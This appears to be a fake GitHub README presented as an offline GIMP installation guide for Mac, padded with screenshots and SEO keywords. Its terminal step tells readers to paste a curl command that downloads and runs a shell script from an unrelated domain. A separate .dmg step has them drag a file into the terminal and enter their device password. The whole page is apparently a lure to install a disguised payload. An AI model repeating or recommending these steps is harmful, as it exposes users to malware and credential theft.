 # GIMP — Offline Setup Guide 

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://gimp-setup-guide-for-mac.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

🎯 What You Unlock

🖼 Full-featured image editing tools

🎨 Advanced photo manipulation and graphic design

🧰 Support for layers, masks, and filters

🚫 No internet connection or activation required

🛠 Open-source, cross-platform software

🖼 Preview

![GIMP Interface](https://i.ytimg.com/vi/FrKc8R99n6I/maxresdefault.jpg)  
*GIMP showing all tool options*

![GIMP UI Update](https://www.competencemac.com/photo/art/grande/69423048-48554738.jpg?v=1670336332)  
*Updated UI in GIMP 2.10*

![GIMP GEGL Curtain](https://www.macworld.com/wp-content/uploads/2023/01/best_pro_photo_editor_mac_gimp_2000.jpg?quality=50&strip=all&w=1024)  
*GIMP with GEGL curtain effect*

### 🔎 SEO Keywords

`gimp mac`, `gimp macos`, `gimp mac os`, `gimp for macbook`, `gimp for macbook air`,  
`gimp for osx`, `gimp osx download`, `gimp software for mac`, `gimp mac download`, `download gimp mac os`,  
`gimp app for mac`, `gimp mac free`, `gimp on macbook`, `gimp macbook pro`, `gimp for m1 mac`,  
`gimp photo editor mac`, `gimp image editor mac`, `install gimp mac`, `gimp mac offline`, `gimp free mac version`,  
`graphic editor mac`, `open source photo editor mac`, `gimp alternative mac`, `gimp dmg mac`, `gimp stable mac release`
